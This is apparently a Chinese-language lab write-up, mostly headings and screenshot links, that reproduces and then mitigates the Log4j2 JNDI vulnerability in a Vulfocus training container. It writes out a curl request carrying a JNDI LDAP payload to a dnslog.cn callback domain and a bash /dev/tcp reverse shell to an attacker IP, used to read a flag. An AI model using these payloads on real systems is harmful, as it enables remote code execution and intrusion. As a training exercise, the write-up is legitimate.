# Log4j2漏洞复现及修复

## 进入Vulfocus平台：通过克隆资源中的仓库地址来实现平台的搭建，启动vulfocus并找到log4j2漏洞，启动该漏洞

## 得到此漏洞的入口靶标，访问此地址正式进入当前环境测试URL

## 通过docker ps指令得到容器名称和ID,进入到此容器的环境,同时将环境路径下的demo.jar拷贝到宿主机



## 通过反编译工具得到漏洞源代码，从而分析漏洞代码部分

## 分析源码得到漏洞部分代码为“logger.error("{}",payload);logger.info("{}",payload);”
## 验证漏洞可利用性：使用Poc手动测试漏洞，其中利用dnslog.cn生成随机域名

## 使用curl指令触发一次域名解析请求



### 此处我通过运行curl -X POST http://192.168.164.5:24645/he11o -d 'payload="$findi:ldap://ongzd7.dnslog.cn/asas}"'会出现报错，通过询问大模型得知漏洞入口靶标的端口不支持POST方法，于是更改了指令运行


## 漏洞利用效果评估：通过在靶机中的单独测试有效负载来连接攻击机反弹窗口，验证反弹shell的成功利用

## 通过对靶机的监听可以在/tmp目录下得到靶标文件，里面记录了漏洞flag


### 其中遇到了运行bash -i >& /dev/tcp/192.168.164.4/7777 0>&1进行反弹窗口连接报错问题，后来发现是shell解释器的环境不支持该语法，出现了重镜像语法错误


### 于是替换显式使用 bash 执行命令即可成功。

## 漏洞缓解并验证：改变漏洞环境变量，重新解析dns请求发现没有更新记录



